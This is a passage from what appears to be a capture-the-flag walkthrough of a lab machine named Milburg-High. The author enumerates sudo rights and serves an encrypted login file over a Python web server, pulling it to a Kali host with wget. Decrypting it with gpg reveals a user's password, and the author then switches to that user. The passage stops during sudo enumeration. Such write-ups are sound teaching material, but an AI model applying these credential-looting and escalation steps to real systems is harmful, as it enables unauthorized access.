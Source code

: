 ```bash
    (root) NOPASSWD: /bin/systemctl start ssh
elliot@Milburg-High:~$ 
```
So we can sudo two commands, but I have no idea how I can use this to escalate our privileges.
Then I suddenly remember that I saw something in the home directory of Bob. Let's check it again.
```bash
seb@Milburg-High:~$ cd /home/bob/Documents/
seb@Milburg-High:/home/bob/Documents$ ls -la
total 20
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 .
drwxr-xr-x 18 bob bob 4096 Mar  8  2018 ..
-rw-r--r--  1 bob bob   91 Mar  5  2018 login.txt.gpg
drwxr-xr-x  3 bob bob 4096 Mar  5  2018 Secret
-rw-r--r--  1 bob bob  300 Mar  4  2018 staff.txt
```
There is a interesting file `login.txt.gpg` available. GPG is also known as GNU Privacy Guard.
Let's host a python webserver so we are able to download the file from the victim.
```bash
seb@Milburg-High:/home/bob/Documents$ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```
As soon as the python webserver is running we can download the file with wget.

```bash
┌──(emvee㉿kali)-[~/Documents/Bob]
└─$ wget http://10.0.2.8:8080/login.txt.gpg 
--2022-09-26 20:57:16--  http://10.0.2.8:8080/login.txt.gpg
Connecting to 10.0.2.8:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 91 [application/octet-stream]
Saving to: ‘login.txt.gpg’

login.txt.gpg                100%[==============================================>]      91  --.-KB/s    in 0s      

2022-09-26 20:57:17 (2.57 MB/s) - ‘login.txt.gpg’ saved [91/91]
```
Since the file has been downloaded to our Kali machine we can see what content is within the file.
To open this we need the secret we discovered earlier.
```bash
┌──(emvee㉿kali)-[~/Documents/Bob]
└─$  gpg -d login.txt.gpg
gpg: AES.CFB encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_

```
The password for bob has been discovered. This gives us the opportunity to switch user to Bob.

## Privilege escalation
Now let's switch user.
```bash
seb@Milburg-High:/home/bob/Documents$ su bob
Password: 
bob@Milburg-High:~/Documents$ 
```
One of the first thing we should do with a new user is to find out if the user has sudo permissions.
```bash
bob@Milburg-High:~/Documents$ sudo -l
sudo: unable to resolve host Milburg-High
[sudo] password for bob: 
Matching Defaults entries for bob on Milburg-High:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
```